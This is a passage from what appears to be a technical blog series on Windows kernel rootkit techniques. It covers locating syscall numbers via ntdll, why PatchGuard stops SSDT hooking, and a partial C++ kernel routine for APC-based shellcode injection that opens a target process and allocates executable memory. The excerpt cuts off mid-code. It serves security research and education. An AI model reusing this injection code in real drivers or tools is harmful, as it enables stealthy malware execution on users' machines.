 The code above is finding `csrss` (a process that will always run and has `ntdll`) loaded and finding the location of the function inside `ntdll`. After it finds the location of the function inside `ntdll`, it searches for the last `mov eax, [variable]` pattern to make sure it finds the syscall number. When the syscall number is known, all there is needs to be done is to find the function address with the SSDT.

### Hooking The SSDT in 2023

This method was abused heavily by rootkit developers and Antimalware developers alike in the golden area of rootkits. The reason this method is no longer used is because PatchGuard monitors SSDT changes and crashes the machine if a modification is detected.

While this method cannot be used in modern systems without tampering with PatchGuard, throughout the years developers found other ways to hook syscalls as substitution.

## APC Injection

Explaining how APCs work is beyond the scope of this series, which is why I recommend reading [Repnz's](https://twitter.com/0xrepnz) series [about APCs](https://repnz.github.io/posts/apc/kernel-user-apc-api/).

To inject a shellcode into a user mode process with an APC several conditions need to be met:

- The thread should be alertable.
- The shellcode should be accessible from the user mode.

```cpp
NTSTATUS InjectShellcodeAPC(ShellcodeInformation* ShellcodeInfo) {
    OBJECT_ATTRIBUTES objAttr{};
    CLIENT_ID cid{};
    HANDLE hProcess = NULL;
    PEPROCESS TargetProcess = NULL;
    PETHREAD TargetThread = NULL;
    PKAPC ShellcodeApc = NULL;
    PKAPC PrepareApc = NULL;
    PVOID shellcodeAddress = NULL;
    NTSTATUS status = STATUS_SUCCESS;
    SIZE_T shellcodeSize = ShellcodeInfo->ShellcodeSize;

    HANDLE pid = UlongToHandle(ShellcodeInfo->Pid);
    status = PsLookupProcessByProcessId(pid, &TargetProcess);

    if (!NT_SUCCESS(status))
        goto CleanUp;

    // Find APC suitable thread.
    status = FindAlertableThread(pid, &TargetThread);

    if (!NT_SUCCESS(status) || !TargetThread) {
        if (NT_SUCCESS(status))
            status = STATUS_NOT_FOUND;
        goto CleanUp;
    }

    // Allocate and write the shellcode.
    InitializeObjectAttributes(&objAttr, NULL, OBJ_KERNEL_HANDLE, NULL, NULL);
    cid.UniqueProcess = pid;
    cid.UniqueThread = NULL;

    status = ZwOpenProcess(&hProcess, PROCESS_ALL_ACCESS, &objAttr, &cid);

    if (!NT_SUCCESS(status))
        goto CleanUp;

    status = ZwAllocateVirtualMemory(hProcess, &shellcodeAddress, 0, &shellcodeSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READ);
```